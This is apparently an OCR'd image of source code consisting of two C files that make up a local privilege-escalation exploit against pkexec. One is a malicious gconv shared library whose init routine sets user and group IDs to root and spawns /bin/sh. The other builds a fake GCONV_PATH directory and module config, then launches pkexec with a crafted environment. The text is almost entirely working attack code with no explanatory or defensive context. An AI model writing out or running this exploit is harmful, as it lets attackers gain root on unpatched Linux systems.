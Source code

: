 ```

#################

##### evil-so.c #####

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void gconv() {}

void gconv_init() {
    setuid(0);
    setgid(0);
    setgroups(0);

    execve("/bin/sh", NULL, NULL);
}

#################

##### exploit.c #####

#include <stdio.h>
#include <stdlib.h>

#define BIN "/usr/bin/pkexec"
#define DIR "evildir"
#define EVILSO "evil"

int main()
{
    char *envp[] = {
        DIR,
        "PATH=GCONV_PATH=.",
        "SHELL=ryaagard",
        "CHARSET=ryaagard",
        NULL
    };
    char *argv[] = { NULL };

    system("mkdir GCONV_PATH=.");
    system("touch GCONV_PATH=./" DIR " && chmod 777 GCONV_PATH=./" DIR);
    system("mkdir " DIR);
    system("echo 'module\tINTERNAL\t\t\tryaagard//\t\t\t" EVILSO "\t\t\t2' > " DIR "/gconv-modules");
    system("cp " EVILSO ".so " DIR);

    execve(BIN, argv, envp);

    return 0;
}

#################

```
